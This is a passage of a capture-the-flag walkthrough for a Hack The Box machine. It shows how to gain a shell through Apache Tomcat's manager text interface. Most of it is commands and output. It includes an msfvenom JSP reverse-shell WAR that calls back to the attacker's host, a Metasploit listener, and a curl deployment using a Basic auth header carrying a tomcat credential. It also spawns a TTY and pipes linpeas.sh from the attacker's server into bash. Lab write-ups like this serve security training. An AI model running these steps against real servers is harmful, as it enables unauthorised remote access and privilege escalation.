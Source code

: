 If we looks at the roles that our user has, he isn't in the manager-gui group so we can't use the manager HTML interface, but he is in the manager-script group so we can use the text interface. We'll first need to create a war shell to upload:

```
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.xx.xx lport=1234 -f war -o meter.war
```

We also need to open a listener:

```
$ msfconsole
$ use exploit/multi/handler
$ set LHOST 10.10.xx.xx
$ set LPORT 1234
$ exploit -j
```

With our shell ready to go, we can use curl to communicate with the server, after grabbing our Authorization Header with Burp:

```
curl -T meter.war -H "Authorization: Basic dG9tY2F0OiQzY3VyZVA0czV3MHJkMTIzIQ==" http://10.10.10.194:8080/manager/text/deploy?path=/shell
```

Now that the shell has been deployed, we can visit it in our browser at:

http://megahosting.htb:8080/shell

```
msf5 exploit(multi/handler) > shell session 1 opened (10.10.14.28:1234 -> 10.10.10.194:54304) at 2020-06-26 10:59:21 -0500
msf5 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

Now, we'll import TTY to give ourselves a better shell, and do some enumeration:

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9/$
```

We can run linpeas.sh to get an overview of what we have on the system:

```
$ curl http://10.10.xx.xx/linpeas.sh | bash
...
[+] Backup files?                                                                                                    
-rw-r--r-- 1 ash ash 8716 Jun 16 13:42 /var/www/html/files/16162020_backup.zip  
-rw-r--r-- 1 root root 2743 Apr 23 07:35 /etc/apt/sources.list.curtin.old   
...
```
